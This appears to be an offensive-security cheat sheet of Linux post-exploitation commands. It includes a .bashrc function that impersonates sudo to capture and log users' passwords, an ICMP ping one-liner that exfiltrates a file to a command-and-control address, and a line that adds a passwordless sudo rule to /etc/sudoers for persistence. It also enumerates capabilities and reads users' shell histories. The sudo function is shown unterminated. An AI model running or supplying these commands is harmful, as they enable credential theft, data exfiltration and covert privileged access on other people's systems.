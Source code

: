 ```sh
sudo systemctl enable shout.timer
sudo systemctl start shout.timer
```

## Backdooring Sudo

Add to `.bashrc`

```bash
function sudo() {
    realsudo="$(which sudo)"
    read -s -p "[sudo] password for $USER: " inputPasswd
    printf "\n"; printf '%s\n' "$USER : $inputPasswd\n" >> /tmp/log13999292.log
    $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" > /dev/null 2>&1
    $realsudo "${@:1}"
```

## ICMP Tunneling One Liner

```sh
xxd -p -c 4 /path/exfil_file | while read line; do ping -c 1 -p $line <C2 IP>; done
```

## One Liner to Add Persistence on a Box via Sudoers File

```sh
echo "%sudo  ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

## Find Server Strings from HTTP Responses

Finding server strings from a file of URLs

```sh
curl -s --head -K servers.txt | grep -i server
```

## Enumerating File Capabilities with Getcap

getcap displays the name and capabilities of each specified file. ```-r```  enables recursive search.

```sh
getcap -r / 2>/dev/null
```

## Enumerating User Files for Interesting Information

```sh
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```
